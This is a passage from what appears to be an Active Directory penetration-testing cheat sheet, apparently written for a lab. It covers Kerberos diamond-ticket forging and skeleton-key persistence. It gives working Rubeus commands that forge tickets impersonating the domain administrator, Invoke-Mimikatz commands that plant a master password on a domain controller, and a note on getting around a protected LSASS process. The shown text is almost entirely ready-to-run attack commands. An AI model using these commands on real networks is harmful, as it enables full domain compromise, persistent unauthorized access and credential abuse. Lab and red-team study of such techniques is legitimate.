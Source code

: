     NOTE: HOST - Scheduled Task | HOST + RPCSS - PowerShell remoting & WMI | LDAP - DCSync | WSMAN | CIFS

    ```

### Diamond Ticket

    ```powershell
    # Instead of creating completely forged ticket, it fetches valid TGT and modifies required attributes 

    # Request TGT for StudentUserX and modify the parameters to create a diamond ticket
    Rubeus.exe diamond
    /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
    /user:studentuserx /password:studentuserxpassword /enctype:aes
    /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local
    /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show
    /ptt

    # Use /tgtdeleg if we have access as domain user and its TGT is already cached
    Rubeus.exe diamond
    /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
    /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local
    /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512
    /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
    ```

### Skeleton Key

    ```powershell
    # Once set, Allows any user to Login using 'mimikatz' as password for any useraccount
    ## Use the below command to inject a skeleton-Key
    ## Skeleton Key password is : mimikatz
    Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
    Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

    # If lsass is running as protected process
    ## In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
